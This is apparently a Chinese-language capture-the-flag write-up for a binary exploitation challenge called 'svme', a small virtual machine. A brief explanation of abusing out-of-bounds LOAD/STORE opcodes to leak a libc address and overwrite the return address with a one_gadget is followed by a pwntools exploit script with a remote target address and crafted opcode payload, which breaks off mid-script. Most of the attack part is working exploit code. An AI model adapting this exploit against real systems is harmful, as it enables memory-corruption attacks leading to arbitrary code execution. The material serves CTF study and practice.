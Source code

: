 
则通过LOAD数组上溢可以读取到栈地址code，计算好偏移后再通过STORE数组上溢将globals指针修改为栈上的地址，此时再通过GLOAD读取时，globals已经是栈上的地址了，可以直接再栈上读取__libc_start_main函数的地址，计算one_gadget的地址后GSTORE覆盖返回地址

由于最后要将globals释放，在结束的时候还需要恢复一下globals的指针

exp:

```python
from pwn import *
import time
#context(log_level='debug',arch='amd64')


local=1
binary_name='svme'

libc=ELF("libc.so.6")
e=ELF("./"+binary_name)
def exp():
	if local:
		p=process("./"+binary_name)
	else:
		p=remote('47.243.140.252', 1337)
		

	def z(a=''):
		if local:
		    gdb.attach(p,a)
		    if a=='':
		        raw_input
		else:
		    pass
	ru=lambda x:p.recvuntil(x)
	rc=lambda x:p.recv(x)
	sl=lambda x:p.sendline(x)
	sd=lambda x:p.send(x)
	sla=lambda a,b:p.sendlineafter(a,b)
	ia=lambda : p.interactive()


	def leak_address():
		if(context.arch=='i386'): 
			return u32(p.recv(4)) 
		else :
			return u64(p.recv(6).ljust(8,b'\x00'))

	one=[0xe6c7e,0xe6c81,0xe6c84]
	
	pd=p32(16)+p32(6)+p32(0)+p32(0)
	pd+=p32(14)
	pd+=p32(18)
	
	
	pd+=p32(10)+p32(0xFFFFFC14)
	pd+=p32(10)+p32(0xFFFFFC15)
	pd+=p32(10)+p32(0xFFFFFC11)
	pd+=p32(10)+p32(0xFFFFFC10)
	offset=0x218
	pd+=p32(9)+p32(offset)
	pd+=p32(1)
	pd+=p32(12)+p32(0xFFFFFC14)
	pd+=p32(12)+p32(0xFFFFFC15)
	pd+=p32(11)+p32(0)
	offset=	one[2]-	0x026fc0-243
	pd+=p32(9)+p32(offset)
```